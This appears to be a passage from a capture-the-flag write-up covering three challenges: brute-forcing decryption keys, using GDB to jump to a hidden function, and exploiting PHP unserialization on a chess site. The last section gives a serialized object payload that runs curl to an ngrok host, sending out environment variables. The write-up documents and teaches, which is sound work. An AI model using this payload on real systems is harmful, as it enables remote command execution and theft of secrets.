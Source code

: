 Then, just try decrypting with all the keys :)
```bash
for f in *.pem; do
	./wannacry -encrypted_file flag -key_file $f
done
```

## EP001CH02

The binary contains a wordlist and a way to map current time to a word. This word is appended to [https://wannacry-killswitch-dot-gweb-h4ck1ng-g00gl3.uc.r.appspot.com/](https://wannacry-killswitch-dot-gweb-h4ck1ng-g00gl3.uc.r.appspot.com/), and is only valid for a short period of time. Visiting the valid URL gives you the flag. However, the program won't normally run properly (or call that function).

Using GDB, we can do
```
gdb break main
r
jump print
c
```
and quickly visit the URL to get the flag.

## EP001CH03

Same webpage as the first challenge of episode 000. However, the endpoint we exploited last time now makes sure that the file ends with `.fen`. 

There's another attack vector, though. Making moves on the chess board results in get requests with a `move_end` parameter that consists of base64 encoded PHP array. i.e. 
`?move_end=YToyOntpOjA7czoyOiJlMiI7aToxO3M6MjoiZTQiO30=` which decodes to `a:2:{i:0;s:2:"e2";i:1;s:2:"e4";}`, a PHP array representing the move. This is passed to `deserialize()`, so we can exploit this.There's even a convenient object in the source code, `Stockfish`, with these interesting functions:
```php
public function __wakeup()
    {
        $this->process = proc_open($this->binary, $this->descriptorspec, $this->pipes, $this->cwd, null, $this->other_options) ;
        echo '<!--'.'wakeupcalled'.fgets($this->pipes[1], 4096).'-->';
    }

 public function __toString()
    {
        return fgets($this->pipes[1], 4096);
    }
```
`__wakeup()` gets called when deserializing the object, and conveniently there is a debug print of the object right after which will result in `__toString()` being called. We then construct a deserialization payload like such:
```php
O:9:"Stockfish":4:{s:3:"cwd";s:2:"./";s:6:"binary";s:69:"curl https://34c4-85-255-233-71.eu.ngrok.io/$(printenv | grep google)";s:13:"other_options";a:1:{s:12:"bypass_shell";s:4:"true";}s:14:"descriptorspec";a:2:{i:0;a:2:{i:0;s:4:"pipe";i:1;s:1:"r";}i:1;a:2:{i:0;s:4:"pipe";i:1;s:1:"w";}}}
```
to get the environment value containing the flag.
